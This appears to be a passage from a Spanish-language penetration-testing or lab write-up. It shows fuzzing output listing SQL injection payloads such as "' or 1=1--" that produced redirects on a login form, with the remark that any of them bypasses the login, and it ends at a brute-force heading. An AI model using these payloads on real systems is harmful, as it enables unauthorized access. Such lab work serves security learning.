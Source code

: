 ```console
ID           Response   Lines    Word     Chars       Payload                                                                                                 
===================================================================

000000037:   302        117 L    277 W    4221 Ch     "hi' or 'a'='a"                                                                                         
000000057:   302        117 L    277 W    4221 Ch     "or 1=1 or ''='"                                                                                        
000000065:   302        117 L    277 W    4221 Ch     "admin' or '"                                                                                           
000000100:   302        117 L    277 W    4221 Ch     "%20or%20''='"                                                                                          
000000103:   302        117 L    277 W    4221 Ch     "hi' or 'x'='x';"                                                                                       
000000115:   302        117 L    277 W    4221 Ch     "a' or 'a' = 'a"                                                                                        
000000122:   302        117 L    277 W    4221 Ch     "or 1 --'"                                                                                              
000000146:   302        117 L    277 W    4221 Ch     "or ''='"                                                                                               
000000176:   302        117 L    277 W    4221 Ch     "anything' OR 'x'='x"                                                                                   
000000201:   302        117 L    277 W    4221 Ch     "x' or 1=1 or 'x'='y"                                                                                   
000000224:   302        117 L    277 W    4221 Ch     "'%20or%20''='"                                                                                         
000000225:   302        117 L    277 W    4221 Ch     "'%20or%20'x'='x"                                                                                       
000000227:   302        117 L    277 W    4221 Ch     "' or 0=0 --"                                                                                           
000000228:   302        117 L    277 W    4221 Ch     "' or 0=0 #"                                                                                            
000000230:   302        117 L    277 W    4221 Ch     "' or 1=1--"                                                                                            
000000232:   302        117 L    277 W    4221 Ch     "' or 1 --'"                                                                                            
000000234:   302        117 L    277 W    4221 Ch     "' or 1=1 or ''='"                                                                                      
000000243:   302        117 L    277 W    4221 Ch     "' or username like '%"                                                                                 
000000265:   302        117 L    277 W    4221 Ch     "' or ''='"                                                                                             

Total time: 5.565300
Processed Requests: 267
Filtered Requests: 248
Requests/sec.: 47.97584
```
Cualquiera de estas inyecciones lograra el bypass del login. :)

## Script de fuerza bruta manual.
